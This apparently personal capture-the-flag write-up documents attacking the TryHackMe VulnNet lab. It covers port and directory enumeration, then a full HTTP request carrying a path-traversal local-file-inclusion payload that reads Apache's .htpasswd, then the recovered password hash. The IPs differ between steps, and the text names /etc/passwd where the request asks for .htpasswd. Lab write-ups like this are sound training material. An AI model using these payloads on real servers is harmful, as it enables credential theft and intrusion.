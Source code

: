 # Hack Log 9 - TryHackMe [Vulnnet](https://tryhackme.com/room/vulnnet)

📆:**Date:** 2025-06-23
🔍**Objective:** Obtain flags.  
🎯**Target**: TryHackme Vulnnet (Lab CTF)  

---  

## 🛠️ Actions Taken  

### Port and Service Enumeration  

```bash
nmap -A -p- 10.10.45.143
```

| Port    | Service  | Description                    |
|---------|----------|--------------------------------|
| 22 | ssh    | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)|                 |
| 80 | http     | Apache httpd 2.4.29                  |  


### Directory Enumeration  

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u http://10.10.46.143/
```

→ Found following directories  
  - /css
  - /img
  - /js

→ In "/js" there were 2 javascript files, upon observing both  
  - index__7ed54732.js
    ```javascript
    function l(a) {
           
            return fetch(function(a) {
            
                return "".concat(void 0 === e ? "http://broadcast.vulnnet.thm" : e).concat("/", "?_alias=").concat(n, "&_callbackAlias=").concat(l, "&_lang=").concat(c)
            }
    ```
    - The code snippet mentioned another subdomain as "http://broadcast.vulnnet.thm".  
   

    - index__d8338055.js
      ```javascript
          return n.d(t, "a", t), t
            }, n.o = function(e, t) {
          return Object.prototype.hasOwnProperty.call(e, t)
        }, n.p = "http://vulnnet.thm/index.php?referer=", n(n.s = 0) }({
      ```
    - Found "referer" parameter which can lead to LFI.
   


### Local File Inclusion  

→ Testing LFI  
  - Fuzzing the endpoint "http://vulnnet.thm/index.php?referer=" with LFI payloads using Burp with the payload
    ```
    GET /index.php?referer=%2e%2e%2F%2e%2e%2F%2e%2e%2F%2F%2e%2e%2F%2e%2e%2Fetc%2fapache2%2f.htpasswd HTTP/1.1
    Host: vulnnet.thm
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i
    ```
  - Received the contents of "/etc/passwd in response which confirmed LFI.


### Exploitation  

→ Since apache was running in the machine, looking for "/etc/apache2/.htpasswd" returned a username and password hash.
  ```
      developers:$apr1$ntOz2ERF$Sd6FT8YVTValWjL7bJv0P0
  ```
→ Successfully cracked the hash with john.
    


